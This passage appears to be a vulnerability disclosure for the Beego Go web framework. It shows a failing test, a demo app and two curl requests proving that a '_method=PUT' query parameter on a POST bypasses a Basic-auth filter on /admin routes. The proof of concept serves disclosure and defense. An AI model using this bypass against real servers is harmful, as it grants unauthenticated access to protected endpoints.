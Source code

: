 *Test output for the `TestAuthFilterBypass` test case.*
```
=== RUN   TestAuthFilterBypass
    /home/ghostccamm/Documents/Research/beego/beego/server/web/filter/authz/authz_test.go:134: anon, /endpoint?_method=PUT, POST, reponse body: put, supposed to be post <1>
--- FAIL: TestAuthFilterBypass (0.00s)
```
1. The `Post()` controller method was executed, which should have only been accessible from the `/admin/endpoint` route that required authentication.

The following example application and demonstration was also provided to the Beego development team.

```go
package main

import (
	"github.com/beego/beego/v2/server/web"
	"github.com/beego/beego/v2/server/web/filter/auth"
)

type FilterBypassController struct {
	web.Controller
}

func (tc *FilterBypassController) Post() {
	tc.Ctx.Output.Body([]byte("public endpoint"))
}

func (tc *FilterBypassController) Put() {
	tc.Ctx.Output.Body([]byte("auth endpoint"))
}

func main() {
	// Only /endpoint (Post method) should be accessible without authentication
	web.InsertFilter("/admin/*", web.BeforeRouter, auth.Basic("alice", "secretpass"))

	web.CtrlPost("endpoint", (*FilterBypassController).Post)
	web.CtrlPut("admin/endpoint", (*FilterBypassController).Put)

	web.Run()
}
```

```terminal
$ curl -X PUT 'http://127.0.0.1:8080/admin/endpoint'
401 Unauthorized

$ curl -X POST 'http://127.0.0.1:8080/endpoint?_method=PUT'
auth endpoint
```

# Impact
